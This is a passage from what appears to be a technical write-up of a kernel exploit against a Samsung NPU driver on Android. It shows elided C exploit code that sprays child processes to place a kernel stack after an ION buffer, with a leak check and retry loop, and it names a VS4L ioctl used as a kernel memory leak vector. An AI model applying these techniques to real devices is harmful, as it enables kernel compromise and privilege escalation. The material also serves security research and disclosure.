```
}

...
  
int main(int argc, char *argv[]) {
  	...
    pipe(parent_pipe);
    pipe(child_pipe);
    pipe(trig_pipe);
  	...
    *wait_count = 0;
    int par_pid = 0;
    if (!(par_pid = fork())) {
        for (int i = 0; i < 0x2000; i++) {
            int pid = 0;
            if (!(pid = fork())){
                read_sleep_func(NULL);
                return 0;
            }
        }
        return 0;
    }
  	...
    if(leak(0xeec8) != 0x41414141){
        write(trig_pipe[1], "A", 1); // child process kill
        for (int i = ion_fd; i < 0x3ff; i++) {
            close(i);
        }
        munmap(ncp_page, 0x7000);
        goto retry;
    }
  	...

```

By very heuristic way that inspecting whether kernel crash occurs or not, we can finally place our child's kernel stack after the ION buffer..

**Initial kernel memory leak**

Even though there are various information leak vectors, we used `VS4L_VERTEXIOC_S_FORMAT` ioctl interface to call `npu_session_format` function in kernel space.

```
int npu_session_format(struct npu_queue *queue, struct vs4l_format_list *flist)
{
	...
	ncp_vaddr = (char *)session->ncp_mem_buf->vaddr;
	ncp = (struct ncp_header *)ncp_vaddr;

	address_vector_offset = ncp->address_vector_offset;
	address_vector_cnt = ncp->address_vector_cnt;

	memory_vector_offset = ncp->memory_vector_offset;
	memory_vector_cnt = ncp->memory_vector_cnt;

	mv = (struct memory_vector *)(ncp_vaddr + memory_vector_offset);
	av = (struct address_vector *)(ncp_vaddr + address_vector_offset);

	formats = flist->formats;

	if (flist->direction == VS4L_DIRECTION_IN) {
		FM_av = session->IFM_info[0].addr_info;
		FM_cnt = session->IFM_cnt;
	}
```